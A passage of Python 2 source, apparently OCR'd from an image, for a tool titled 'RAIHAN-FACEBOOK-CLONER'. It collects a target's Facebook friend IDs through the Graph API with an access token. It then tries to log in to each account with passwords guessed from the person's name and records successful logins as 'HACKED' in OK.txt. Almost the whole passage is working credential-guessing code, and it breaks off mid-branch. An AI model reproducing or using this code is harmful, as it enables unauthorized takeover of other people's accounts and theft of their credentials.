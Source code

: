         r = requests.get('https://graph.facebook.com/' + idt + '/friends?access_token=' + token)
        z = json.loads(r.text)
        for i in z['data']:
            uid = i['id']
            na = i['name']
            nm = na.rsplit(' ')[0]
            id.append(uid + '|' + na)
        
    elif rx == '0':
        menu()
    else:
        print ''
        print '\tSELECT VALID OPTION'
        print ''
        choice()
    print '\x1b[1;97m[=] TOTAL IDS :\x1b[1;92m ' + str(len(id))
    print '\x1b[1;97m[=] THE PROCESS HAS STARTED'
    print '\x1b[1;97m======================================================='
    print '\x1b[1;93m     RAIHAN-FACEBOOK-CLONER'
    print '\x1b[1;97m=======================================================-'
    
    def main(arg):
        user = arg
        (uid, name) = user.split('|')
        sharagent = random.choice(sua)
        session = requests.Session()
        session.headers.update({
            'Host': 'mbasic.facebook.com',
            'cache-control': 'max-age=0',
            'upgrade-insecure-requests': '1',
            'user-agent': sharagent,
            'accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8',
            'accept-encoding': 'gzip, deflate',
            'accept-language': 'id-ID,id;q=0.9,en-US;q=0.8,en;q=0.7' })
        host = 'https://mbasic.facebook.com'
        
        try:
            ps = name
            data = session.post('https://mbasic.facebook.com/login.php', data = {
                'email': uid,
                'pass': ps,
                'login': 'submit' })
            sp = data.content
            if 'mbasic_logout_button' in sp or 'save-device' in sp:
                print '\x1b[1;92m[RAIHAN-HACKED] ' + uid + ' | ' + ps + '\x1b[0;97m'
                ok = open('OK.txt', 'a')
                ok.write(uid + '|' + ps + '\n')
                ok.close()
                oks.append(uid + ps)
            elif 'checkpoint' in sp:
                print '\x1b[1;91m[RAIHAN-CHECKPOINT] ' + uid + ' | ' + ps + '\x1b[0;97m'
                cp = open('CP.txt', 'a')
                cp.write(uid + '|' + ps + '\n')
                cp.close()
                cps.append(uid + ps)
            else:
                ps2 = name.lower().split(' ')[0] + ' ' + name.lower().split(' ')[1]
                data = session.post('https://mbasic.facebook.com/login.php', data = {
                    'email': uid,
                    'pass': ps2,
                    'login': 'submit' })
                sp = data.content
                if 'mbasic_logout_button' in sp or 'save-device' in sp:
                    print '\x1b[1;92m[RAIHAN-HACKED] ' + uid + ' | ' + ps2 + '\x1b[0;97m'
                    ok = open('OK.txt', 'a')